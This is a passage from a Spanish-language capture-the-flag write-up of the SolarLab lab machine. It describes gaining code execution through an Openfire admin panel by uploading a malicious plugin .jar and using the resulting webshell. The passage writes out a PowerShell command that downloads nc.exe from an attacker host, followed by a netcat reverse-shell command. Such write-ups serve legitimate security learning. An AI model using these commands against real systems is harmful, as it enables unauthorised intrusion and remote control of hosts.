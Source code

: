 Ya hemos ganado acceso al panel, ahora en principio, se debe de acontecer una vulnerabilidad de tipo RCE para poder ganar acceso al sistema como el usuario `openfire`

![Write-up Image](images/SolarLab_8.png)

Aquí podemos inyectar un archivo `.jar` malicioso y conseguir ejecución de comandos.
Voy a subir el `.jar` que viene en el PoC

Y ahora en esta ruta
`http://127.0.0.1:9090/plugins/openfire-management-tool-plugin/cmd.jsp`

Tenemos una webshell.
Ahora primero nos descargamos nc desde la webshell.
`powershell.exe "iwr http://10.10.14.71/nc.exe -o nc.exe"`

Y ahora nos mandamos una cmd `nc.exe 10.10.14.71 443 -e cmd.exe`

```cmd
C:\Program Files\Openfire\bin>whoami
whoami
solarlab\openfire

C:\Program Files\Openfire\bin>
```

Enumerando un poco los archivos de openfire, nos damos cuenta de un directorio un tanto peculiar.
`07/27/2024  08:29 PM    <DIR>          embedded-db`

